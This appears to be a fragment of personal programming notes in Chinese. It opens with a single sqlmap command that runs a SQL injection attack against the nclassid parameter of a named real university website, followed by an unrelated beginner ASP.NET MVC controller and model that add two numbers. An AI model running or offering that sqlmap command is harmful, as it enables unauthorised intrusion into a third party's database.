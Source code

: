 



~~~

python sqlmap.py -u "http://emglab.xmu.edu.cn/ccma/product.asp" --data "Submit2=%B2%E9%D1%AF&nclassid=1*&selectkey=%C7%EB%CA%E4%C8%EB%D4%E5%D6%D6%B1%EA%CC%E2%BB%F2%B1%E0%BA%C5%B5%C4%B9%D8%BC%FC%D7%D6" -p nclassid --risk 3 --level 3 --dbms=access --technique B --threads 10
~~~



#### 第一个mvc程序

![](https://s1.ax1x.com/2023/02/17/pSqVTUO.png)

TestController

~~~csharp
using MVC3.Models;
using System.Web.Mvc;

namespace MVC3.Controllers
{
    public class TestController : Controller
    {
        // GET: Test
        public ActionResult Index(IndexModel model)
        {
            model.Result = model.Num1 + model.Num2;
            return View(model);
        }
    }
}
~~~

IndexModel

~~~c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Web;

namespace MVC3.Models
{
    public class IndexModel
    {
        public int Num1 { get; set; }
        public int Num2 { get; set; }

        public int Result { get; set; }

    }
}
~~~
